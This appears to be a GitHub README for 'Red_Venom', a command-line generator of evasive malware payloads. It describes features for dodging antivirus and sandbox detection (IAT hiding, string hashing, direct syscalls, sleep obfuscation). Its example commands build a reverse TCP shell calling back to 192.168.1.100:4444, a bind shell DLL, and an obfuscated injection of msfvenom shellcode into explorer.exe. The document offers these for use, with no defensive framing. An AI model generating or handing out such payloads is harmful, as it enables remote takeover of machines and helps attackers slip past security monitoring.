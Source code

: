 
## 🛡️ Advanced Evasion Techniques

Red_Venom integrates cutting-edge methods to enhance payload stealth:

- **IAT Hiding**: Conceals Import Address Table entries to evade API monitoring.
- **Obfuscation**: Applies various code and data obfuscation methods to make analysis difficult.
- **Encryption**: Encrypts payloads or sensitive strings for obfuscation.
- **String Hashing**: Replaces plaintext with hashes to bypass static analysis.
- **Brute-Forcing Decryption**: (Contextual) May involve dynamic self-decryption or iterative unlocking of payload stages.
- **Syscalls (System Calls)**: Directly invokes kernel functions, bypassing user-mode API hooks.
- **Sleep Obfuscation**: Introduces configurable delays (via `-s` option) to evade sandbox detection.

---

## 🚀 Usage

**Red_Venom** is a command-line tool designed for advanced customization. Use the following syntax and options to generate and deploy payloads.

<img width="1370" height="984" alt="image" src="https://github.com/user-attachments/assets/9e3caddb-d02c-433f-ae07-5fac1c014bd7" />

### 🛠️ Command Syntax

```bash
Red_Venom.exe -t <Payload_Type> -i <IP> -p <Port> [options]
  ```
### 📋 Options

- `-t <Payload_Type>`: Specifies the type of payload (e.g., `Reverse_tcp`, `Mapping_Injection`).
- `-i <IP>`: Sets the listen IP address for TCP payloads.
- `-p <Port>`: Defines the listen port number for TCP payloads.
- `-f <Payload.bin>`: Specifies the raw payload file (e.g., `msfvenom` output) for injection types.
- `-o <Format>`: Determines the output format of the generated payload (EXE, DLL).
- `-s <seconds>`: Enables sleep obfuscation, pausing execution for (30.5) seconds by default. 
- `-obf`: Activates payload obfuscation.
- `-r <Process>`: Specifies the remote process name for injection (e.g., `explorer.exe`).

### 📋 Example Commands

- **Generate a TCP reverse shell:**
  ```bash
  Red_Venom.exe -t Reverse_tcp -i 192.168.1.100 -p 4444 -o EXE
  ```

- **Generate a bind shell with DLL output:**
  ```bash
  Red_Venom.exe -t Bind_Shell -p 5555 -o DLL
  ```

- **Inject a custom payload with obfuscation:**
  ```bash
  Red_Venom.exe -t Remote_P_Injection -f payload.bin -o EXE -obf -r explorer.exe
  ```
  
---
